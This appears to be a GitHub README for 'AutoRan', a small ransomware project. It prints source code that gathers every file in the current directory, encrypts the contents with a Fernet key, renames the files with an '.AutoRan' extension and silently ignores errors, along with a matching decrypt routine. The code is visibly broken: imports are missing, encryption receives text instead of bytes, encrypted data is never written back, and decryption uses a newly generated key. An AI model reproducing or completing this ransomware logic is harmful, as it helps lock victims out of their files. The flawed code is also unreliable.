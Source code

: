# AutoRan
### AutoRan history 1.0
### Encrypt
##### Encrypt Source Code

```
from cryptography.fernet import Fernet

Encrypt = {}
Files = glob.glob("*.*")

Key = Fernet.generate_key()
F = Fernet(Key)

def Encry():
  try:
    for File in Files:
      with open(File, "r") as fp:
        Data = fp.read()
        Locked = F.encrypt(Data)
        Encrypt[File] = Locked
        os.rename(File, f"{File}.AutoRan")
        FL.insert(END, f"{File} -> {File}.AutoRan")
        fp.close()
  except:
    pass
```

### Decrypt
#### Decrypt Source Code

```
from cryptography.fernet import Fernet

Encrypt = {}
Files = glob.glob("*.*")

Key = Fernet.generate_key()
F = Fernet(Key)

def Decry():
  try:
    for LockData in Encrypt:
      with open(LockData, "w") as fp:
        Data = Encrypt[LockData]
        UnLocked = F.decrypt(Data).decode()
        fp.write(UnLocked)
  except:
    pass
```

#### Use cryptography.fernet
# I hope this program not work
#### cause i hate ransomware...
